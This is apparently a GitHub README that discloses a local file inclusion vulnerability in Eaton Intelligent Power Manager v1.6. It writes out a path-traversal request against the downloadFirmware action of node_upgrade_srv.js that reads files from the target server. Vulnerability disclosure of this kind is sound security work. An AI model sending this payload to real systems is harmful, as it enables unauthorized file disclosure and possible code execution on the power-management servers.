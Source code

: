 # Eaton-Intelligent-Power-Manager-Local-File-Inclusion
Local file inclusion in Eaton Intelligent Power Manager  v1.6 allows an attacker to include a file, it can lead to sensitive information disclosure, denial of service and code execution.

To exploit vulnerability, someone could use 'https://[HOST]/server/node_upgrade_srv.js?action=downloadFirmware&firmware=/../../../../../../../../../../' request to get some informations from the target.

![alt tag](https://www.emreovunc.com/blog/en/eaton-power-manager-lfi.jpg)
